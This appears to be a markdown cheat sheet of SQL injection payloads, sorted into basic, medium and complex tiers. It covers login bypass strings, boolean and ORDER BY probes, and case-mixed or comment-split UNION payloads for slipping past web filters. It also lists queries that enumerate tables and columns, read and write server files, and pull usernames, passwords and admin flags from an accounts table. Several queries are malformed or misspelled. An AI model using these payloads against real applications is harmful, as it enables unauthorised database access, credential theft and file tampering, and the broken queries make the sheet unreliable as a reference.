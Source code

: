 ### Top SQL Injections:



1- 


















---------------------------------------------------------------------------------------------------------------------------------------



### Summary:


__Basic__

>> __' OR 1=1 ;--__ 
    
>> __') OR 1=1; --__ 
   
>> __' and 'a '='a__

>> __' and 'a'='b__

   
&nbsp;
&nbsp;
&nbsp;

__Medium:__


>>  1' and 1=1 &nbsp;  | nbsp; True 


>>  1' and 1=0 &nbsp;  |  &nbsp; False 


>>  1' order by 1  &nbsp; |  &nbsp; True


>>  1' order by 10000 &nbsp; | &nbsp; False


>>  1 or db_name()=1); &nbsp;|  &nbsp;


>>  1 or db_name(0)=1) &nbsp; | &nbsp; increase the number until the database does not show any errors



>> 9999' UNION SELECT name,222,'else1' FROM master.syslogin; -- 

&nbsp;
&nbsp;
&nbsp;

__Complex:__

>> union select 1, 2, 3 %23                  &nbsp;&nbsp;  |  Bypass Web filters  | 


>> uNioN+sEleCt+1,2+%23                      &nbsp;&nbsp;  |  Bypass Web filters  |  


>> uNioN`/**/`sEleCt`/**/`1,2`/**/`%23       &nbsp;&nbsp;  |  Bypass Web filters  | 
>>

>> UniOn selEct 1,version() /*


>> UniOn selEct 1,database() /*


>> UniOn selEct 1,user() /*


>> UniOn selEct 1,table_name frOm information_schema.tables table_schema = '[database name]' /*


>> UniOn selEct 1,column_name frOm information_schema.columns table_name = '[table name]' /*


>> UniOn selEct 1,[column name] frOm [table name] /*


>> UniOn selEct 1,load_file('file location') /*   Reading files:


>> UniOn selEct null,[file content] inTo outfile '/location/to/write/file/to' /*  Writing files 


>> union select 1, column_name, null, from Infromation_schema .columns where table_name = 0x769166  &nbsp;&nbsp; | hex encoding                                                                                                                                dbname   


>>  ' union select 1, column_name, null, null, null, 5 from Infromation_schema.columns where table_name = 'accounts' | 


>>  ' union select username, pass, is_admin from 'accounts' &nbsp;&nbsp;  | 


>>  ' union select 1, table_name, null, null, null, 5 from Infromation_schema.tables where table_schema = 'owasdb |

